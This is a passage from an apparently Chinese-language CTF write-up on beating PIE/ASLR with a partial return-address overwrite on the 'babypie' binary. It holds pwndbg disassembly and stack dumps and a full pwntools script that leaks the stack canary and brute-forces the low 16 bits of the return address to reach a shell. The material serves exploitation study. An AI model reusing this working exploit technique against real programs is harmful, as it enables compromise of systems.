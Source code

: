 ```asm
 
   0x55dc43694a23    mov    eax, 0
   0x55dc43694a28    mov    rcx, qword ptr [rbp - 8]
   0x55dc43694a2c    xor    rcx, qword ptr fs:[0x28]
   0x55dc43694a35    je     0x55dc43694a3c
 
   0x55dc43694a37    call   0x55dc436947c0
────────────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────────
00:0000│ rax rsi rsp  0x7fff9aa3af20 ◂— 0x6161616161616161 ('aaaaaaaa')
... ↓
05:0028│              0x7fff9aa3af48 ◂— 0xbfe0cfbabccd2861
06:0030│ rbp          0x7fff9aa3af50 —▸ 0x7fff9aa3af70 —▸ 0x55dc43694a80 ◂— push   r15
07:0038│              0x7fff9aa3af58 —▸ 0x55dc43694a6a ◂— mov    eax, 0
pwndbg> x/10i (0x0A3E+0x55dc43694000) 
   0x55dc43694a3e:	push   rbp
   0x55dc43694a3f:	mov    rbp,rsp
   0x55dc43694a42:	lea    rdi,[rip+0xd7]        # 0x55dc43694b20
   0x55dc43694a49:	call   0x55dc436947d0
   0x55dc43694a4e:	nop
   0x55dc43694a4f:	pop    rbp
   0x55dc43694a50:	ret    
   0x55dc43694a51:	push   rbp
   0x55dc43694a52:	mov    rbp,rsp
   0x55dc43694a55:	sub    rsp,0x10
```
可以发现, 此时的返回地址与 get shell 函数的地址只有低位的 16 bit 不同, 如果覆写低 16 bit 为 `0x?A3E`, 就有一定的几率 get shell

最终的脚本如下:
```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *
#  context.log_level = "debug"
context.terminal = ["deepin-terminal", "-x", "sh", "-c"]

while True:
    try:
        io = process("./babypie", timeout = 1)

        #  gdb.attach(io)
        io.sendafter(":\n", 'a' * (0x30 - 0x8 + 1))
        io.recvuntil('a' * (0x30 - 0x8 + 1))
        canary = '\0' + io.recvn(7)
        success(canary.encode('hex'))

        #  gdb.attach(io)
        io.sendafter(":\n", 'a' * (0x30 - 0x8) + canary + 'bbbbbbbb' + '\x3E\x0A')

        io.interactive()
    except Exception as e:
        io.close()
        print e
```
需要注意的是, 这种技巧不止在栈上有效, 在堆上也是一种有效的绕过地址随机化的手段
